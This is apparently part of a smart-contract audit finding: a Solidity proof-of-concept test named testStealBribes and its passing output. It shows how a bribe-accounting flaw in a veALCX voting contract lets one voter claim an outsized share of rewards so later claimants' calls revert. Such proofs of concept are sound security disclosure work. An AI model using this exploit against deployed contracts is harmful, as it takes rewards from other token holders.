 ```solidity
        uint256 tokenId3 = createVeAlcx(dead, TOKEN_1, MAXTIME, false);

        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0); 

        hevm.prank(dead);
        voter.vote(tokenId3, pools, weights, 0); 

        // Go to next epoch
        hevm.warp(newEpoch());

        // All 3 users can claim rewards.
        // However, rewards are not distributed equaly as it would be the case if all of them voted. 
        // totalVoted only accounts for two voters, so rewards will only be split in two.
        // If X is the amount of reward :
        console2.log(sushiGaugeBribe.earned(sushiGaugeBribeToken, tokenId1)); // Can get aproximately X because admin has double the veALCX voting power in this case
        console2.log(sushiGaugeBribe.earned(sushiGaugeBribeToken, tokenId2)); // Can get X / 2
        console2.log(sushiGaugeBribe.earned(sushiGaugeBribeToken, tokenId3)); // Can get X / 2

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);

        // This will fail as there are not enough rewards left in this case
        hevm.prank(beef);
        vm.expectRevert();
        voter.claimBribes(bribes, tokens, tokenId2);

        hevm.prank(dead);
        vm.expectRevert();
        voter.claimBribes(bribes, tokens, tokenId3);
    }
```

## Results
```console
Ran 1 test for src/test/Voting.t.sol:VotingTest
[PASS] testStealBribes() (gas: 6893490)
Logs:
  994217758672975468
  500000000000000000
  500000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 88.42s (70.90s CPU time)

Ran 1 test suite in 90.33s (88.42s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```